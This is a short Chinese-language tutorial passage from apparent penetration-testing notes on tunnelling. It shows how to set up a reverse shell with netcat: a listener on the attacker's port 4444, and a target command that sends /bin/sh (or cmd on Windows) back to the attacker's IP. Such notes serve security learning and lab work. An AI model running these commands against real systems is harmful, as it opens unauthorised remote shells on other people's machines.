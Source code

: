 <img src="隧道应用/image-20221106151706533.png" alt="image-20221106151706533" style="zoom:67%;" />	



## 正向/反向Shell

### 反向Shell	

如下图所示, 目标主机反向连接攻击机的4444端口, -e选项将Bash Shell发送给攻击机, 若目标主机为windows, 需设置成`-e cmd`

![image-20221106162120338](隧道应用/image-20221106162120338.png)	



先在攻击机开启监听4444端口: `nc -lvp 4444`	

![image-20221106161802417](隧道应用/image-20221106161802417.png)	



在目标主机反弹Shell: `nc 192.168.47.134 4444 -e /bin/sh`

![image-20221106161846933](隧道应用/image-20221106161846933.png)	

